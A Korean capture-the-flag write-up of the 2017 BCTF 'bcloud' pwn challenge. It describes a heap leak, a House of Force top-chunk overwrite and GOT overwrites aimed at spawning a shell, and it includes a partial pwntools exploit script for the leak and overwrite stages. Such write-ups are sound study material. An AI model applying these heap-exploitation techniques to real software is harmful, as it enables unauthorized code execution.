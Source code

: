 # 2017 bctf - [PWN] bcloud

## Key words

- i386 | NX
- heap (House of force)
- leak by got overwritten

## Solution

처음에 이름을 입력 받는 부분에서 힙 주소를 노출 시킬 수 있습니다.

그 이후, Host 와 Org를 입력 받는데 스트링을 복사 할 때, 오버플로우가 발생하여 힙의 top chunk (wilderness)를 수정할 수 있습니다.

top chunk의 크기를 0xffffffff로 변경하면 매우 큰 크기의 malloc이 가능하고 이는 32비트 주소 체계를 넘게 되서 다시 처음으로 돌게 할 수 있습니다.

따라서 malloc으로 내가 원하는 위치에 할당을 하기 위해 다음과 같이 계산 할 수 있습니다.

```
양수 계산: target - heap_addr - 8
음수 계산: (target - heap_addr) ^ 0xffffffff + 1
```

이를 이용하여 `bss` 영역부터 원하는 값을 쓸수가 있어 문제에서 제공하는 특정 배열을 조작할 수 있습니다.

문제는 기본적인 기능으로는 주소 노출을 할 수가 없는데, free@got를 puts@got로 변경하여 노출 시킬 수 있습니다.

노출된 주소를 이용하여 system 주소를 구하고, atoi@got 를 system 주소로 변경한 뒤, 메뉴 입력 시 `/bin/sh\x00`을 넣어 주면 쉘이 떨어 지게 됩니다.

> 익스 코드는 house of force를 이용하여 bss영역을 덮어 써서 got까지 덮어 쓴 내용이고 그 이후에는 개인 적인 환경에서 정상적으로 동작하지 않아 생략했습니다. 그러나 bss를 이용하여 got를 덮어 쓰는 곳 이후로는 별 다른 어려움이 없기 때문에 문제 해결에는 지장이 없습니다.

## Exploit Code

```python
from pwn import *
context(arch='amd64', os='linux')

target = "./bcloud"
p = process(target)
e = ELF(target)

def fn_leak(addr, n, title=""):
	print " *** {} : {} *** """.format(title, hex(addr))
	print hexdump(p.leak(addr, n))

print p.recv()
p.send("A"*0x3f + "Z")
data = p.recv()
data = data.split("Z")[1].split("!")[0]
heap_addr = u32(data)

print "heap addr : {}".format(hex(heap_addr))
print hexdump(p.leak(heap_addr-8, 0x100))

p.send("A"*0x40)
p.sendline("\xff"*4)
print p.recv()
print hexdump(p.leak(heap_addr-8, 0x100))

arr_N = 0x0804b0a0-0x8
got_addr = 0x0804b000
arr_list = 0x0804b120

# size = target - top_chunk - 8
size = (arr_N - (heap_addr-8+0xdc) - 8) & 0xffffffff
size = (0xffffffff ^ size) + 1
print hex(size)

p.sendline("1")
print p.recv()

p.sendline("-" + str(size))
print p.recv()

p.sendline("1")
print p.recv()

payload = ""
payload += p32(32) * 10
payload += p32(0) * 19
payload += p32(0) * 3
payload += p32(e.got['free'])
payload += p32(e.got['__libc_start_main'])
payload += p32(0)*9

print len(payload)
p.sendline(str(len(payload)+1))
print p.recv()

p.sendline(payload)
print p.recv()

fn_leak(arr_N, 0x50, "arr_N")
fn_leak(arr_list, 0x30, "arr_list")
fn_leak(got_addr, 0x30, "got_addr")

p.sendline("3")
print p.recv()
p.sendline("0")
print p.recv()
p.sendline(p32(e.got['puts']))
print p.recv()

fn_leak(arr_N, 0x50, "arr_N")
fn_leak(arr_list, 0x30, "arr_list")
fn_leak(got_addr, 0x30, "got_addr")

p.sendline("4")
print p.recv()
p.sendline("1")
print p.recv()
```
